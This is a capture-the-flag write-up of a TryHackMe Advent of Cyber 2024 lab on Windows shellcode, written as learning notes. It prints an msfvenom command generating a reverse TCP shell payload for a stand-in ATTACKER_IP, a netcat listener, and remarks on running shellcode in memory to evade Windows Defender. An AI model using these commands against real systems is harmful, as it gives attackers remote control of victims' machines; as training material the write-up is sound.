

# Advent of Cyber 2024 Writeup: Day 8

## Overview
**Room URL:** https://tryhackme.com/r/room/adventofcyber2024 \
**Difficulty:** Easy\
**Category:** Shellcodes\
**Date Completed:** 12/09/2024

### Objectives
1. Grasp the fundamentals of writing shellcode.
2. Generate shellcodes for reverse shells.
3. Executing shellcode with Powershell.

---

## Table of Contents
1. [Introduction](#introduction)  
2. [Walkthrough](#walkthrough)  
   - [Task 14: Shellcodes of the world, unite!](#task-14-shellcodes-of-the-world-unite)  
3. [Lessons Learned](#lessons-learned)  
4. [References](#references)

---

## Introduction
Shellcodes are injected into the victim's machine often in order to achieve remote code execution. In order to prevent them from detected by Windows Defender, shellcodes are often run directly from memory to avoid disk based detection. In this task, we'll gain access to a vulnerable system and use shellcode to get a reverse shell into the machine.

---

## Walkthrough

### Task 14: Shellcodes of the world, unite!

#### Sub-Question: What is the flag value once Glitch gets reverse shell on the digital vault using port 4444?

  - **Steps Taken:** There are multiple steps to getting the answer.
    - Firstly, we need to craft the shell code with the IP of the attack box and listening port of 4444. To do this we'll use the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f powershell` to indicate that we want a reverse tcp shell into a windows machine that will be executed in powershell.

    - After the shellcode has been generated, we'll use `netcat` to listen for any incoming connections on port 4444 with the command `nc -nvlp 4444`.

    - Then we will open powershell in the victim's machine and run the code provided with our shellcode.

    - Our listening terminal should grant us access to the victim's machine after which we can simply read the contents of `flag.txt`.

  - **Output/Result:**  
        

---

## Lessons Learned
- Learned how to use shellcodes to get reverse shell into a windows machine.
- Learned about various Windows API functions used by malware such as:
  - `VirtualAlloc` to allocate memory in the process's address in order to prepare memory for storing and executing shellcode.
  - `CreateThread` to create a new thread that will execute shellcode loaded in memory.
  - `WaitForSingleObject` to pause execution to ensure that shellcode has run completely.

---

## References
